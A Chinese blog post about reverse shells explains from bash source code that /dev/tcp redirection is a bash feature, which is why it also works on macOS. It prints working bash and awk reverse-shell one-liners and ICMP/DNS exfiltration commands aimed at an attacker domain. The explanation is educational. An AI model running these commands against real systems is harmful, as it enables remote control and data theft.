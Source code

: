 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/DuhimxyOb255byWNKhExkw)

前言  

=====

昨天有个小伙伴在群里问在 macOS 下如何实现 bash 反弹 shell，因为 Mac 中没有 `/dev/tcp` 目录。借着这个问题，就来简单谈谈反弹 shell 的那些事。

从 bash 说起
=========

可能大家都用过 bash 反弹 shell:

```
bash -i >& /dev/tcp/127.0.0.1/8080 0>&1

```

关于重定向部分很多文章有介绍了，但是 /dev 部分却鲜有提及。很多人以为 **/dev/tcp/host/port** 是 Linux 内核提供的一个 devfs[1] (或者 udev[2])，曾经我也是这么认为的，但实际上上面的命令在 macOS 甚至 Windows 也可以成功执行，显然这些系统中并不存在 `/dev/tcp/` 之类的路径。

WHY？

原因很简单，因为这是 bash 本身提供的功能。其代码实现在 `bash/redir.c` 中:

```
/* A list of pattern/value pairs for filenames that the redirection
   code handles specially. */
static STRING_INT_ALIST _redir_special_filenames[] = {
#if !defined (HAVE_DEV_FD)
  { "/dev/fd/[0-9]*", RF_DEVFD },
#endif
#if !defined (HAVE_DEV_STDIN)
  { "/dev/stderr", RF_DEVSTDERR },
  { "/dev/stdin", RF_DEVSTDIN },
  { "/dev/stdout", RF_DEVSTDOUT },
#endif
#if defined (NETWORK_REDIRECTIONS)
  { "/dev/tcp/*/*", RF_DEVTCP },
  { "/dev/udp/*/*", RF_DEVUDP },
#endif
  { (char *)NULL, -1 }
};
static int
redir_special_open (spec, filename, flags, mode, ri)
     int spec;
     char *filename;
     int flags, mode;
     enum r_instruction ri;
{
  // ...
#if defined (NETWORK_REDIRECTIONS)
    case RF_DEVTCP:
    case RF_DEVUDP:
#if defined (RESTRICTED_SHELL)
      if (restricted)
    return (RESTRICTED_REDIRECT);
#endif
#if defined (HAVE_NETWORK)
      fd = netopen (filename);
#else
}

```

而 netopen 函数则定义在 `bash/lib/sh/netopen.c` 中:

```
/*
 * Open a TCP or UDP connection given a path like `/dev/tcp/host/port' to
 * host `host' on port `port' and return the connected socket.
 */
int
netopen (path)
     char *path;
{
  char *np, *s, *t;
  int fd;
  np = (char *)xmalloc (strlen (path) + 1);
  strcpy (np, path);
  s = np + 9;
  t = strchr (s, '/');
  if (t == 0)
    {
      internal_error (_("%s: bad network path specification"), path);
      free (np);
      return -1;
    }
  *t++ = '\0';
  fd = _netopen (s, t, path[5]);
  free (np);
  return fd;
}
/*
 * Open a TCP or UDP connection to HOST on port SERV.  Uses getaddrinfo(3)
 * if available, falling back to the traditional BSD mechanisms otherwise.
 * Returns the connected socket or -1 on error.
 */
static int 
_netopen(host, serv, typ)
     char *host, *serv;
     int typ;
{
#ifdef HAVE_GETADDRINFO
  return (_netopen6 (host, serv, typ));
#else
  return (_netopen4 (host, serv, typ));
#endif
}

```

因此，这实际上只是对 `/dev/{tcp,udp}` 开头的文件进行字符串解析并根据解析结果建立网络连接，并没有涉及到具体的操作系统。如果解析失败，比如字段数量不正常或者协议不正确，才会回退到 **open(2)** 操作，即指定路径当做常规文件处理。

awk
===

当然，bash 并不是唯一实现了这种根据路径指定网络连接的功能，比如常见的 awk 一句话反弹 shell:

```
awk 'BEGIN {s = "/inet/tcp/0/127.0.0.1/8080"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null

```

> awk: bash 摸得，我摸不得？

在编写本文时最新的代码实现在 io.c 中，片段如下所示:

![](https://mmbiz.qpic.cn/sz_mmbiz_png/3eicVGzibzClA3FMMlDJMSmJvDUiahQvb025PenZVV1IibajPXnC6ibicV2whQTibMywib5ib6JIU7OPLW2faho00yXI0UA/640?wx_fmt=png)awk.png

与 bash 的连接相比，awk 的实现增加了更多功能，可以指定 IPv4/IPv6，以及指定绑定的本地端口。

小结
==

在最初接触渗透测试的时候，喜欢收集各种一句话反弹 shell，其实并不必要，因为看多了就会知道其本质是一样的，在实际进行漏洞 (比如命令注入) 时，通常就是有什么用什么，只要能够实现目的即可，比如读取本地文件后，可以通过很多命令传输到攻击者处，比如:

• 用 ICMP 携带 payload: ping -p payload evilpan.com• 用 DNS 请求携带 paylaod，也就是常说的 DNSLog: dig @1.2.3.4 -p 5333 -t A payload.evilpan.com•...

换言之，reverse shell 的本质只是: **connect**、**read**、**exec**、**write**、repeat，从本质出发，也就能发现更多红队的所谓奇淫技巧了。

#### 引用链接

`[1]` devfs: _https://tldp.org/HOWTO/SCSI-2.4-HOWTO/devfs.html_  
`[2]` udev: _http://en.wikipedia.org/wiki/Udev_